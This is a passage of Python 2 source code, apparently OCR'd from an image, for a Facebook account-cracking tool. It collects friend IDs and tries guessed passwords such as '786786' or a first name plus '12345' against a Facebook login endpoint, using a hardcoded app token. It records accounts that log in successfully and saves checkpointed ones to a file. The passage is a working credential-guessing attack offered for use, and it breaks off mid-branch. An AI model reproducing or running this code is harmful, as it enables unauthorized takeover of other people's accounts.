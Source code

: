 		for i in z["data"]:
			id.append(i["id"])
	elif bch =="3":
		os.system("clear")
		print (logo)
		try:
			idlist = raw_input("[✓] Enter File Path  : ")
			for line in open(idlist,"r").readlines():
				id.append(line.strip())
		except IOError:
			print ("[!] File Not Found")
			raw_input("\n[ Back ]")
			crack_menu()
	elif bch =="0":
		menu()
	else:
		print ("[!] Fill in correctly")
		crack_action()
	xxx = str(len(id))
	psb ("[✓] Total Friends: "+xxx)
	time.sleep(0.5)
	psb ("[✓] Please wait, process is running ...")
	time.sleep(0.5)
	psb ("[!] To Stop Process Press CTRL Then Press z")
	time.sleep(0.5)
	print (50*"-")
	print
	
			
	def main(arg):
		global cpb,oks
		user = arg
		try:
			a = session.get("https://graph.facebook.com/"+user+"/?access_token="+toket)
			b = json.loads(a.text)
			d=b["first_name"]
			e=d.replace(" ", "")
			f=e.lower()
			g=pf(f, 1)
			h=g.upper()
			i=rf(f, 1)
			c=h+i
			pass1="786786"
			data = br.open("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email=" + user + "&locale=en_US&password=" + pass1 + "&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")
			q = json.load(data)
			if "access_token" in q:
				print "\x1b[1;92m[Successful]\x1b[0m " + user + " | " + pass1
				oks.append(user+pass1)
			else:
				if "www.facebook.com" in q["error_msg"]:
					print "[Checkpoint] " + user + " | " + pass1
					cps = open("checkpoint.txt", "a")
					cps.write(user+"|"+pass1+"\n")
					cps.close()
					cpb.append(user+pass1)
				else:
					pass2 = c+"12345"
					data = br.open("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email=" + user + "&locale=en_US&password=" + pass2 + "&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")
					q = json.load(data)
					if "access_token" in q: